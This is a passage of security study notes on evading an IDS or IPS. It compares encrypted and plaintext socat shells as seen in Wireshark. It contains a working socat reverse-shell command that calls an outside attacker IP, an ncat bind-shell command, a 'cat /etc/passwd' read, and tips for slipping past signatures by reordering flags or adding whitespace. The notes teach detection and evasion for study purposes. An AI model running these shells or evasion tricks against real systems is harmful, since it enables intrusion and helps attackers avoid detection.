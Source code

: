 - However if the IDS/IPS inspects the traffic, all the packet data will be **encrypted**.
- In other words, the IPS will be completely oblivious to exchange traffic and commands such as "`cat /etc/passwd`".
- The screenshot below shows how things appear on the wire when captured using Wireshark.
- The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.

![](/assets/img/Pasted image 20230126180841.png)


- As you can tell, it is NOT possible to make sense of the commands or data being exchanged.
- To better see the value of the added layer of encryption, we wil compare this with an equivalent `socat` connection that does NOT use encryption:

`1.` On the Attacker's system, we run :

		$ socat -d -d TCP-LISTEN:4443,fork STDOUT

`2.` On the victim's machine, we run :

		$ socat TCP:10.10.222.189:4443 EXEC:/bin/bash

`3.` Back on the attacker's system, we type `cat /etc/passwd` and hit **Enter/Return**.

- Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged.
- In the following screenshot, we can see the command sent by the attacker.

![](/assets/img/Pasted image 20230126181258.png)

- Furthermore, it is a trivial task to follow the TCP stream as it is in cleartext and learn everything exchanged between the attacker and the target system.
- The screenshot below uses the "`Follow TCP Stream`" option from Wireshark:

![](/assets/img/Pasted image 20230126181602.png)



### Modify the Data

- Consider the simple case where you want to use Ncat to create a ***bind shell***.
- The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it.

<u>Defender's Perspective</u>:

- If you want to detect packets containing such commands, you need to think of something specific to match the signature but NOT too specific.

##### IDS/IPS Evasion Case studies:

- `Case 1 - changing order of flags`: Scanning for `ncat -lvnp` can be easily evaded by ***changing*** the `order of the flags`.

- `Case 2 - utilizing white spaces`: On the other hand, ***inspecting the payload*** for "`ncat -`" can be evaded by ***adding an extra white space***, such as "`ncat  -`" which would still run correctly on the target system.
- `Case 3 - Usage of different commands with the same functionality`: If the IDS is looking for `ncat` in general, then simple changes to the original command **won't evade detection**.
			